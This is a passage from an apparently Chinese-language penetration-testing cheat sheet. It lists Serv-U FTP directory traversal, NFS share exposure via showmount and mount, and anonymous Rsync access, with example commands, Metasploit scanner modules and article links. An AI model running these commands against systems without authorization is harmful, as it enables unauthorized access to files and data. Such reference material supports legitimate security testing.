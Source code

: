 **Serv-U FTP Server 目录遍历漏洞**
- 文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- 示例
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

### nfs
**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- 示例
    ```
    showmount -e xxx.xxx.xxx.xxx
    mount -t nfs xxx.xxx.xxx.xxx:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <ip>
    run
    ```

### Rsync
**未授权访问**
- 文章
    - [rsync的几则tips(渗透技巧)](http://www.91ri.org/11093.html)
    - [配置漏洞之Rsync匿名访问](https://uknowsec.cn/posts/skill/%E9%85%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E%E4%B9%8BRsync%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE.html)

- 示例

    `rsync <目标IP>::`

- MSF 模块
    ```bash
    use auxiliary/scanner/rsync/modules_list
    set rhosts <ip>
    run
    ```

### samba
**CVE-2015-0240**
- 文章
    - [Samba CVE-2015-0240 远程代码执行漏洞利用实践](https://www.secpulse.com/archives/5975.html)
